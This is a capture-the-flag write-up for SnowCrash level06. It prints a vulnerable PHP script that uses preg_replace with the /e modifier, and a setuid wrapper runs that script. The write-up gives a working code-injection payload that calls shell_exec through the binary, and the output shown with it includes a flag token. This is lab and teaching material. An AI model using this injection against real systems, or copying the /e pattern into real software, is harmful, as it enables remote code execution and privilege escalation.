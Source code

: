 In level06 home directory we found two files

'level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php'


A binary that's executed with the userid of its owner after using binary ninja we found the the binary run the php script & php script:

#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>


The php script take two arguments but only use the first as a file name and reads from it. we copied the php script to the host machine in order to format it and clearly read it and test it. after running the script we got the error


PHP Warning:  preg_replace(): The /e modifier is no longer supported, use preg_replace_callback instead in /home/sberrich/Projects/cursus/snowCrash/level06/Resources/level06.php on line 12


So we search about the The /e modifier in google and we found out that it's deprecated because it contains a vulnerability , now we just nees to exploit it, we used shell_exec php function that execute shell commands and use the return as variable so php would throw an error with the return.



level06@SnowCrash:~$ echo "[x \${\${shell_exec(getflag)}}]" > /tmp/getflag06
level06@SnowCrash:~$ ./level06 /tmp/getflag06
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1

